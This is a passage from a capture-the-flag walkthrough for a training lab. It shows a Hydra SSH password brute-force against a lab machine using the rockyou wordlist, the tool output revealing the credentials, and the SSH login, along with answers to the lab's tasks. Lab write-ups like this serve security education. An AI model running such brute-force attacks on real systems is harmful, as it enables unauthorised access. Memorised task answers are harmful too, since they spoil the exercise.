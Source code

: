 Task 5: What is the username?
```
jan
```


## SSH Bruteforcing

To brute force username and password **Hydra** is the best tool!

```sh
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>
```
- **-l** username
- **-P** password
```
┌──(root㉿kali)-[/usr]
└─# hydra -l jan -P share/wordlists/rockyou ssh://10.10.66.136
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-08 03:04:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.66.136:22/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 14344273 to do in 1867:45h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 14344105 to do in 2422:60h, 14 active
[STATUS] 94.00 tries/min, 658 tries in 00:07h, 14343743 to do in 2543:14h, 14 active
[22][ssh] host: 10.10.66.136   login: jan   password: armando
^C                                                      
```

> From this point we can login to the machine using **jan** and **armando** through ssh 

&nbsp;
&nbsp;

Task 6:   What is the password?
```
armando
```
Task 7:   What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```

Task 8:   Enumerate the machine to find any vectors for privilege escalation

## Gaining access through SSH

```sh
ssh jan@<target-ip>
```
Type password as **armando**
